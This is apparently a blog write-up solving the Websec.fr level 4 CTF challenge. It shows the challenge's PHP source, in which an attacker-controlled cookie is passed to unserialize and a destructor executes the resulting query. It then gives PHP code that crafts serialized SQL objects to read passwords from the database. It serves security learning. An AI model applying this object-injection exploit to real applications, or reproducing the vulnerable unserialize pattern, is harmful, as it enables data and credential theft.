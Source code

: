 ```yaml
---
title: Websec.fr level 4 - baby steps
date: May 11, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/88d3440d-cee4-486d-9990-9e950a62e554)
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/fba91e37-3f96-4236-8eee-14ca3015b98b)

```php
source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

```php
source2.php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

ok let's look at the first php script.
We can see that if we set a cookie within the header under the parameter <b>leet_hax0r</b> that is an SQL object and
1. Serialized
2. base64 encoded

And don't set the ip (because then it won't be equal to $_SERVER['REMOTE_ADDR']) it will die, which is good for us, why ?

Looking into the second php script we can see in the <b>ret = $this->execute ();</b>. Meaning, the die function will execute our query. Let's dive in.

First, we want to create a serialized object with a query, and see that we get an appropriate response back from the website.

```php
// serialize_object.php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

We use the query from the source1.php script 
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/49fb2442-5eba-4c76-a331-30fc272774eb)

Now base 64, and curl to get a response
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/da0279ec-1cfd-4cf7-bdd7-ef51ab513304)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/273fc908-dcfc-499d-8010-829e9e779b7d)


OK ! now we know how to interact with the website and the server. But how do we get the flag ? 

Look at this peace of code from source2.php 
```php
if (false !== $ret) {    
    while (false !== ($row = $ret->fetchArra(SQLITE3_ASSOC))) {
        echo '<class="well"><strong>Username:<strong' . $row['username'] . '</p>';
    }
}
```

looks like there might be something interesting in 'username' field. Let's check if we can query the password of the username in that row

```php
<?php
class SQL {
  public $query;

  public function __construct($query) {
    $this->query = $query;
  }
}

$query = new SQL("SELECT password AS username FROM users WHERE id=1");
$serialized = serialize($query);
echo $serialized;
?>
```

same steps like before:
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/90b84d09-fce0-4e28-98bc-34f60cff7e0e)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/f897dfd0-7235-4144-a34e-3f134f70324e)

Looks like we got the flag !! <br></br>
Thanks for reading !


